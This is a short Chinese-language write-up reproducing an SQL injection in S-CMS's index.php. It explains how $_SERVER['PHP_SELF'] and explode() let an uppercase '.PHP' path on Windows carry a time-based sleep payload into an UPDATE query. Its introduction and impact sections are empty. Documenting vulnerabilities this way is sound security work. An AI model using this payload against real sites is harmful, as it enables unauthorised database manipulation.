 S-CMS sql注入漏洞（二）
=======================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞位置：`index.php`

![](./resource/S-CMSsql注入漏洞(二)/media/rId24.jpg)

跟进函数`splitx()`

    function splitx($a, $b, $c)
    {
        $d = explode($b, $a);
        return $d[$c];
    }

先上**payload**

    http://www.0-sec.org/index.PHP/a'%20where%20if(1,sleep(5),1)%23?action=update_dir

拼凑SQL语句

    update TABLE_config set C_dir='index.PHP/a' where if(1,sleep(5),1)#'

**解释**

**\$\_SERVER\['PHP\_SELF'\]**：获取当前文件的路径

> 如：127.0.0.1/xxe/xml.php =\> /xxe/xml.php

**explode(separator,string,limit)**：分割字符串形成数组

> separator：规定在哪里分割字符串。
>
> string：要分割的字符串。
>
> limit：规定所返回的数组元素的数目。

如果使用`index.php`，结果如下：

    array (size=2)
      0 => string '/index.php/' (length=5)
      1 => string '/a' where if(1,sleep(5),1)#' (length=27)

被截断，但若使用`index.PHP`：

    array (size=1)
      0 => string '/index.PHP/a' where if(1,sleep(5),1)#' (length=39)

前提：Windows系统下不区分文件大小写。

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
